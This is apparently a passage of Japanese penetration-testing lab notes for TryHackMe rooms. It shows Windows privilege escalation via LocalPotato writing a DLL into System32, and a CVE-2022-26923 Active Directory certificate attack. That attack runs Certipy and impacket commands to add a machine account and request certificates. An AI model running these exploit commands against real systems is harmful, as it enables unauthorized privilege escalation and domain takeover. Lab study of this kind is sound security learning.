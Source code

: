 ### エクスプロイト

```ps
# PATHの確認
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path

# いずれかのPATHにコピーする必要があるが、権限不足でエラーになるので
copy SprintCSP.dll C:\Windows\System32\SprintCSP.dll

# LocalPotato を使ってコピーする
LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll

# RPCをトリガー
RpcClient.exe

# 確認
net user user
```

## CVE-2022-26923 (ActiveDirectory 証明書サービス (CS))

https://tryhackme.com/room/cve202226923

- 構成ミスのある証明書テンプレートを悪用することで、権限昇格やラテラルムーブメント（横方向の攻撃）が可能
- `Validate write to DNS hostname`, `Validate write to Service Principal Name (SPN)` の 2 つの権限が付与されている場合に脆弱性がある。

### ステップ

1. 権限の低い AD ユーザーの資格情報を侵害します。
2. これらの資格情報を使用して、ドメインに新しいホストを登録します。
3. コンピュータ AD オブジェクトの DNS ホスト名属性を、ドメイン コントローラなどの特権ホストの属性に変更します。
4. 固有の SPN 競合の問題を回避するために、SPN 属性を削除します。
5. デフォルトのテンプレートを使用してマシン証明書を要求します。
6. 受信したテンプレートを使用して、偽のマシン アカウントではなく特権マシン アカウントとして Kerberos 認証を実行します。

### エクスプロイト

/etc/hosts（kali）

```sh
10.10.254.197 lundc.lunar.eruca.com lundc lunar-LUNDC-CA lunar.eruca.com
```

https://github.com/ly4k/Certipy

```sh
# 権限の低いADユーザーの証明書
certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User

# 証明書確認
certipy auth -pfx thm.pfx

# ドメインにコンピュータを追加（impacket）
addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'

# コンピュータの証明書
certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine

# 確認
certipy auth -pfx thmpc.pfx
```
